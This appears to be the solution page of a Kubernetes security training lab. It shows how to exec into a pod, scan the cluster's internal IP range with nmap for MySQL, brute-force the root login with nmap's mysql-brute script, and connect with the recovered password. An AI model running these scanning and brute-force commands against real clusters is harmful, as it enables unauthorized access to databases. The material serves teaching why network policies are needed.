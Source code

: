 # Attacking applications in different namespaces in Kubernetes cluster - Solution

* Get pod details and login to the `net-tools` pod using below command.

```bash
export NET_TOOLS_POD=$(kubectl get pods --selector app=net-tools -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $NET_TOOLS_POD bash
```

![](images/get-pod-name.png)

* As MySQL runs on port 3306 by default, we can scan the IP range for this port

```bash
nmap -n -Pn -p3306 --open -sS -T5 10.36.4.0/24
```

![](images/nmap-scan.png)

* Once we have discovered the MySQL service, we can brute force the credentials to login into the server. We can run a brute force attack using nmap and its scripting engine.

```bash
echo root > users.txt
nmap --script mysql-brute 10.36.4.30 -p3306 -T4 --script-args "userdb=users.txt"
```

![](images/nmap-mysql-bruteforce.png)

* Once the credentials are discovered, we can access the MySQL instance with obtained password within the cluster network in different namespace

```bash
mysql -u root -psecret -h 10.36.4.30
```

![](images/mysql-access.png)


* Verify the pods, svc available in the `database` namespace

```bash
kubectl get ns
kubectl get all -n database
```

![](images/get-ns-data.png)

### Refernces

* [https://ahmet.im/blog/kubernetes-network-policy/](https://ahmet.im/blog/kubernetes-network-policy/)
* [Google Cloud Cluster CIDR](https://cloud.google.com/kubernetes-engine/docs/how-to/flexible-pod-cidr)